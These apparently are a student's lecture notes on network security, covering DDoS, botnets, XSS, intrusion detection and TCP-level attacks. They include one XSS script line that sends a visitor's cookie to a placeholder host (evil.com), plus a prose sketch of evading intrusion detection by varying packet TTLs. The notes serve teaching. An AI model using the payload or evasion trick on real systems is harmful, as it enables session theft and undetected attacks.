

# Lecture 23 : Network Security
### Mon 5/8/17

-------------------------------------------------

#### Last Time:
Abstraction: Secure channel
Purpose: Prevent malicious observers



### Today:
- Attacker's Goal: prevent legit access to an internet resource
- Attacker's Method: DDoS Attacks - Distributed Denial of Service
    - [Wiki on DDoS DNS ](https://en.wikipedia.org/wiki/Distributed_denial-of-service_attacks_on_root_nameservers)
    - Lost revenue
    - DNS outages
    - High frequency trading

### Botnets
- Attackers use botnets to launch DDoS attacks
    - You can rent botnets
    - build your own

- How do computers get infected by botnet trojans?
    - Phishing Attacks
    - Cross-Site Scripting Attacks (XSS)
        - user visits a compromised website
        - HTML tag ```html
         <script> document.location = 'http://evil.com/blah.cgi?cookie=' + document.cookie; </script> ```
        - XSS Attack yields the user's cookie for that trusted site.
        - XSS doesn't have to access cookies. Any website executing malicious JS on the clientside is a XSS attack. (Does NOT have to have cookies enabled.)
    - These attacks can install code on your machine, which acts as a rootkit
- After bots are infected, they contact a C&C server (command and control).
    - receives commands like `dos(<IP>)`

### Preventing Botnets
- Can we just block the IP of the C&C machine?
    - they employ DGA (domain generation algorithms) to just switch to new IPs if one is blocked

- Can we just run anti-virus on every machine?
    - Most machines do not know they are infected.

- Look for offending packet?
    - They're usually encrypted somewhat

- Detect attack characteristics?
    - Network Intrusion Detection Systems (NIDS)

### Detecting Attacks
- NIDS:
    1. Signature Based
        - makes a signature out of parameters of an attack
        - Some attacks have known signatures
        - Fails to detect brand new attacks
    2. Anomaly Based
        - recognize unusual traffic

- NIDS can be tricked, by sending many packets with varying TTL (time to live).
    - If trying to send the command `root`, maybe each of those chars has a TTL of 25
    - inbetween each char are sent random letters with TTL of 20
    - anywhere in the first 20 hops of the path, you would see 'rxxxxoxxoxxxtxx' instead of 'root'

### Attacks w/ Legit tradeoff
1. Make requests for intense computations (run an infinite loop or huge query)
2. TCP SYN Flood
    - TCP handshake uses (SYN => SYN-ACK => ACK) three-way handshake. For each SYN, the server must save some state (like port #)
    - Send SYNs without ACKs at high frequency
    - fill all state space, and victim will time out


3. ACK Clocking
    - Effectively DOS yourself
    - send 'optimistic' ACKs to the machine so it increases its sending beyond what the network can handle
    - exploits TCP slow-start

- Attackers can also mount attacks by controlling routers
    - fake announcement that it has a better route to destination than is real.

- Merai Botnet controls IoT devices
    - IoT things dont get upgraded.
    - DDoSed Dyn. (DNS provider)
    - took down Spotify, Twitter, Etc by taking down 1 service.
    - About only 10% of the botnet was used to do this.
